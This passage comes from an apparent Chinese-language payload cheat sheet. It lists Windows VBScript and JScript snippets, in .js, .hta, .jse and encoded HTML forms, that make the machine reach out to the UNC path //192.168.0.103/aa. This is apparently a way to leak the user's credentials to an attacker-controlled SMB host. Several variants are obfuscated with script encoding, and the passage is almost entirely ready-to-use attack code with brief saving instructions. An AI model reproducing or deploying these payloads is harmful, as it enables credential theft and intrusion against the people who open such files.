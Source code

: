 ```
<html>
<script type="text/Vbscript.Encode">
<!--
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
//-->
</script>
</html>
```

# JScript

你可以在 windows 下把这个存成 something.js。

```
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
```

你可以在 HTML 文件中应用同样的方法，但是只能在 IE 中使用。还有，可以把这个存成 something.hta。

```
<html>
<script type="text/Jscript">
<!--
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
//-->
</script>
</html>
```

这是编码版本。可以把这个存成 something.jse。

```
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
```

这个的 HTML 版本。

```
<html>
<script type="text/Jscript.Encode">
<!--
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
//-->
</script>
</html>
```

# Windows 脚本文件
